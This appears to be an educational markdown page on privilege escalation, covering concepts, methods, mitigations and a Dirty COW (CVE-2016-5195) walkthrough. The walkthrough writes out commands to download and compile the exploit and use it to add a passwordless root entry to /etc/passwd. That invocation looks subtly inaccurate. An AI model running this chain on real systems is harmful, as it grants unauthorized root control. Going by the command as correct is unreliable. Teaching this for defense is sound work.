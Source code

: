 # Privilege Escalation


# 👉 Overview

---

### 👀 What ?

> Privilege Escalation is the act of exploiting a bug, design flaw, or configuration oversight in an operating system or software application to gain elevated access to resources that are normally protected from an application or user. This access can be used by an attacker to infiltrate and take control of a system or a network.
> 

### 🧐 Why ?

> Understanding Privilege Escalation is crucial because it is one of the key stages in most successful cyber-attacks. It allows an attacker, who has gained initial access, to transform that foothold into complete control of a system, data, or network. As such, it is a critical concept in cybersecurity, and its understanding can help in the creation of more secure systems and in the defense against cyber attacks.
> 

### ⛏️ How ?

> Privilege Escalation can occur in two ways: horizontally, where a user gains the privileges of another user functioning at the same security level; or vertically, where an attacker escalates from a lower privilege to a higher one. The most common methods used for Privilege Escalation are: exploiting a system vulnerability, password cracking, social engineering, and privilege escalation through inheritance or trusted relationship.
> 

### ⏳ When ?

> Privilege Escalation attacks have been in practice for as long as there have been systems with hierarchical privilege structures, which is to say, essentially since the creation of multi-user computing systems. However, these attacks have become more prevalent and sophisticated with the rise of the internet and the proliferation of interconnected systems.
> 

# ⚙️ Technical Explanations

---

### Overview

Privilege Escalation is a critical concept in cybersecurity where an attacker exploits system vulnerabilities to gain higher permissions than initially granted. This process involves identifying a target system, gaining initial access, and then elevating privileges within the system. Understanding Privilege Escalation is vital for designing secure systems and protecting against cyber attacks.

### Types of Privilege Escalation

1. **Horizontal Escalation**:
    - The attacker gains the privileges of another user at the same security level.
    - Example: An attacker compromises another regular user's account to access their data or resources.
2. **Vertical Escalation**:
    - The attacker elevates their privileges from a lower level to a higher one, becoming a superuser with full access rights.
    - Example: An attacker uses a vulnerability to gain root access on a Linux system.

### Methods of Privilege Escalation

1. **Exploiting Known Vulnerabilities**:
    - Using exploits for known vulnerabilities in the operating system or applications.
2. **Password Cracking**:
    - Guessing or cracking passwords to gain access to higher-privileged accounts.
3. **Social Engineering**:
    - Manipulating users into divulging sensitive information or performing actions that elevate privileges.
4. **Exploiting Inheritance or Trusted Relationships**:
    - Taking advantage of misconfigurations where privileges are inherited or where trusted relationships exist within the system's privilege structure.

### Real Example: Privilege Escalation on a Linux System Using Dirty COW (CVE-2016-5195)

### Scenario

A Linux system running an old kernel version is vulnerable to the Dirty COW exploit, allowing a non-privileged user to gain write access to any file they can read. This can be used for Privilege Escalation.

### Step-by-Step Process

1. **Initial Access**:
    - The attacker gains initial access through weak passwords or a phishing attack, obtaining non-privileged access.
    - They identify the kernel version using the command:
    
    ```bash
    uname -a
    
    ```
    
2. **Exploit Identification**:
    - After confirming the system's vulnerability, the attacker uses the Dirty COW exploit.
    - They download and compile the exploit code:
    
    ```bash
    wget <https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c>
    gcc -pthread dirtyc0w.c -o dirtyc0w
    
    ```
    
3. **Privilege Escalation**:
    - The attacker targets a file they can read but not write, such as `/etc/passwd`.
    - They use the exploit to modify the file and add a new root user:
    
    ```bash
    ./dirtyc0w /etc/passwd "newroot::0:0:::/bin/bash"
    
    ```
    
4. **Post-Exploitation**:
    - The attacker logs in as the new root user with the added credentials:
    
    ```bash
    su - newroot
    
    ```
    
    - With root privileges, they have complete control over the system, allowing access to sensitive data, changes to system settings, or further attacks.

### Mitigation Strategies

1. **System Updates**:
    - Regularly update and patch systems to fix known vulnerabilities.
    - Use automated tools to ensure timely updates.
2. **Strong and Unique Passwords**:
    - Implement strong password policies and enforce the use of unique passwords.
    - Utilize multi-factor authentication (MFA) where possible.
3. **User Education**:
    - Educate users about phishing attacks and social engineering tactics.
    - Conduct regular security awareness training.
4. **Least Privilege Principle**:
    - Apply the principle of least privilege, ensuring users have the minimum necessary permissions.
    - Regularly audit user permissions and access levels.
5. **Monitoring and Detection**:
    - Implement monitoring tools to detect unusual activities or potential exploits.
    - Use intrusion detection systems (IDS) and intrusion prevention systems (IPS) to identify and respond to attacks.

### Conclusion

Privilege Escalation is a significant threat in cybersecurity, allowing attackers to gain elevated access and potentially control the entire system. By understanding the methods and implementing robust mitigation strategies, organizations can protect their systems from such attacks. Regular updates, strong passwords, user education, and continuous monitoring are key components of an effective security posture.
